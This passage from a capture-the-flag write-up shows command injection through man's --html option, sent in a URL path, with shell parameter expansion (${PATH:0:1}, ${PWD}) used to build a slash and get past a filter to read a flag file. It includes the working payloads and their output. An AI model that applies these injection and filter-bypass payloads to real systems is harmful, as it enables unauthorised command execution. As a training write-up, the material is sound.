 ```
${PATH:0:1}
```

Our final command executed in the container will look like this:

```
nobody@21aa2caa1ab3:/app$ man --html="cat ${PATH:0:1}flag.txt" man
oiccflag{test}
<!-- Creator     : groff version 1.22.4 -->
<!-- CreationDate: Wed Feb 12 13:47:14 2025 -->
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"
"http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta name="generator" content="groff -Thtml, see www.gnu.org">
<meta http-equiv="Content-Type" content="text/html; charset=US-ASCII">
... SNIPPED ...
```

Ok now we got a PoC working in the container. Time to convert this in URL form:

```
http://challenges.oceaniacc.com:5001/$/--html="cat ${PATH:0:1}flag.txt"/man
```

When sending this we get the following error:

```
sh: 1: Syntax error: Missing '}'
sh: 1: 0: not found
sh: 1: 1}flag.txt: not found
man: couldn't execute any browser from cat ${PATH:0:1}flag.txt
```

Weird, is it not expanding properly? I try with just `${PATH}`:

```
http://challenges.oceaniacc.com:5001/$/--html=cat%20$%7BPATH%7Dflag.txt/man

cat: '/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binflag.txt': No such file or directory
man: couldn't execute any browser from cat ${PATH}flag.txt
```



Ok it actually resolved the `PATH` variable. It is known that the colons to extract substrings in parameter expansions don't work in `sh`, so maybe it's executing in a primitive shell. Looking at the solution, it uses the `%` operator which is used for pattern removal in parameter expansion. I can use this operator instead to remove the rest of the string to only give me `/`. I can't use `PATH` though because it contains multiple forward slash characters. Let's see what the value of `PWD` is.

```
http://challenges.oceaniacc.com:5001/$/--html=cat%20$%7BPWD%7Dflag.txt/man

cat: /appflag.txt: No such file or directory
man: couldn't execute any browser from cat ${PWD}flag.txt
```
